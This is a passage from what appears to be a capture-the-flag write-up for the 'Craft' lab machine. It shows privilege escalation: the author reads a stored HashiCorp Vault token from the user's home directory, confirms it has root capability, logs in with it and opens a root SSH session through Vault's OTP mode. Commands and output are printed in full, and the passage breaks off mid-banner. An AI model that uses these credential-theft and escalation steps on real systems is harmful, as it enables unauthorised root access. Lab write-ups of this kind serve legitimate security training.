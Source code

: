 After some googling, I found the [application’s website](https://www.vaultproject.io/).

Basically, the system uses token to grant access to services across machines. I also found a file named `.vault-token` in the user’s home directory, so I tried to see the token’s capabilities:

{% highlight bash %}
gilfoyle@craft:~$ cat ~/.vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
gilfoyle@craft:~$ vault token capabilities f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
root
gilfoyle@craft:~$

{% endhighlight %}

The token had root privileges! This means that I could turn its privilege into a shell with the right set of commands. After more googling, I found out the exact procedure. First, I needed to authenticate:

{% highlight bash %}
gilfoyle@craft:~$ vault login -address=https://vault.craft.htb:8200 token=f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
gilfoyle@craft:~$

{% endhighlight %}

After that, I connected to SSH as root using the One-Time Password (OTP) option of `vault`:

{% highlight bash %}
gilfoyle@craft:~$ vault ssh -mode otp root@localhost
WARNING: No -role specified. Use -role to tell Vault which ssh role to use for
authentication. In the future, you will need to tell Vault which role to use.
For now, Vault will attempt to guess based on the API response. This will be
removed in the Vault 1.1.
Vault SSH: Role: "root_otp"
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 7982e0d2-0391-7733-bb4e-d508ac1ddd75


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |